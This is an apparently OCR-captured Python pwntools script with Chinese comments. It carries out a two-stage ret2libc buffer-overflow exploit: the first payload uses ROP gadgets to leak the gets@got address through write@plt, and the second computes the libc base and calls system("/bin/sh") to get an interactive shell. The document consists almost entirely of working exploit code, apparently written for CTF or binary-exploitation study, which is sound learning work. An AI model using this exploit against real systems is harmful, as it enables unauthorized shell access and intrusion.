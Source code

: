```python
pop_rdi_addr = 0x4005e3  # pop rdi; ret 指令的地址，用于设置 rdi 寄存器（第 1 个参数）
pop_rsi_addr = 0x4005e1  # pop rsi; pop r15; ret 指令的地址，用于设置 rsi 寄存器（第 2 个参数）

# 缓冲区溢出偏移量
offset = 18

# 暂停程序执行，便于调试（在这里可以通过 GDB 附加调试）
pause()

# 构造第一个 Payload，用于泄露 gets@got 的真实地址
payload1 = (
    offset * b'A' +            # 填充缓冲区，覆盖返回地址
    p64(pop_rdi_addr) + p64(1) +  # 设置 rdi = 1（文件描述符 stdout）
    p64(pop_rsi_addr) + p64(gets_got_addr) + p64(1) +  # 设置 rsi = gets@got，r15 = 1（写入字节数）
    p64(write_plt_addr) +      # 调用 write@plt，输出 gets@got 的真实地址
    p64(vul_addr)              # 返回到 vul 函数，便于后续利用
)

# 发送第一个 Payload
p.sendline(payload1)

# 接收泄露的 gets 地址（前 8 字节）
gets_addr = u64(p.recv()[:8])  # 将泄露的 8 字节转换为 64 位整数
print(f"Leaked gets address: {hex(gets_addr)}")  # 打印泄露的 gets 地址

# 加载 libc 文件，便于计算偏移地址
libc = ELF("lib/x86_64-linux-gnu/libc.so.6")

# 计算 libc 基地址 = 泄露的 gets 地址 - gets 在 libc 中的偏移
libc_base = gets_addr - libc.symbols["gets"]
print(f"libc base address: {hex(libc_base)}")

# 计算 system 函数的地址 = libc 基地址 + system 在 libc 中的偏移
system_addr = libc_base + libc.symbols["system"]
print(f"system address: {hex(system_addr)}")

# 计算 "/bin/sh" 字符串的地址 = libc 基地址 + "/bin/sh" 在 libc 中的偏移
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
print(f"/bin/sh address: {hex(bin_sh_addr)}")

# 构造第二个 Payload，用于调用 system("/bin/sh")
payload2 = (
    offset * b'A' +            # 填充缓冲区，覆盖返回地址
    p64(pop_rdi_addr) + p64(bin_sh_addr) +  # 设置 rdi = "/bin/sh" 的地址（system 函数的参数）
    p64(system_addr)           # 调用 system 函数，执行 /bin/sh
)

# 发送第二个 Payload
p.sendline(payload2)

# 进入交互模式，获得 Shell
p.interactive()
```
